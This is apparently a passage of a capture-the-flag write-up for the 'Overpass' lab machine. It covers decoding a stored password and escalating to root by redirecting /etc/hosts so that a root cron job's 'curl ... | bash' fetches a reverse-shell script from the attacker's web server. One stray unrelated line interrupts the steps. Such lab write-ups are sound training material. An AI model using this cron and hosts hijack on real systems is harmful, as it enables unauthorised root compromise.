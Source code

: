 - Using [this](https://www.dcode.fr/rot-47-cipher) tool, I've deciphered the stored information in the `.overpass` file

```
[{"name":"System","pass":"say{redacted}ure"}]
```

- The name indicates that this might be the `root` password, so I'll have a try with `sudo`.

- I had to luck, but by reading the `todo.txt` file one more time, I got it: `Write down my password somewhere on a sticky note so that I don't forget it.`. So `say{redacted}ure` is actually `james password`

**NOTE**: the same password could've been grabbed by running `/usr/bin/overpass` with `option 4 : Retrieve All Passwords `

- Upon further lookup on the system, I've noticed that there's a job in the `/etc/crontab` that pulls the `buildscript.sh` from `overpass.thm`.

- `overpass.thm` is just `127.0.0.1` in `/etc/hosts` file.

```
james@overpass-prod:/etc$ cat /etc/crontab

* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash

james@overpass-prod:/etc$ cat /etc/hosts

127.0.0.1 localhost
127.0.1.1 overpass-prod
127.0.0.1 overpass.thm
```

- I think I've overthinked this a little, but I tried:

	- writing to `/etc/crontab` file.
	
	- **HERE it came to my mind that I could just edit the /etc/hosts file to point to my attack box and let cron just take the modified file from my box but i've checked the permissions with ls -l and the file was under root so I believed I don't have permissions to write to it. BIG MISTAKE.**

	- So I've continued:

	- Remember this was a go server? I've found the server files in `/usr/local/go`, but couldn't find where the files from downloads are.

	- - downloading the `buildscript.sh` from `ip/downloads/src/` on my attack box.

		- modify the content to a reverse shell and upload it to `ip/downloads/src` using `curl -X POST -F "file=@/home/madalinux/buildscript.sh" http://10.10.189.227/downloads/src`

	- downloading the `buildscript.sh` on the target host, saving it to `/home/james`, modify it to a reverse shell and trying the same `curl` command, but replacing the `ip` with `overpass.thm`

	- Finished a university course.

	- I tried to replace my own ip in `/etc/hosts` file just because I was out of ideas. And it worked :) 

- On my attack box, I've created `/downloads/src` folders and placed the `buildscript.sh` executable file inside. (containing a reverse shell).

- Started a python webserver using `python3 -m http.server 80` and started a listener on the chosen port.

- After a short while, I had a revere shell under root on the victim machine. 

- The final flag is in `/root/root.txt`.

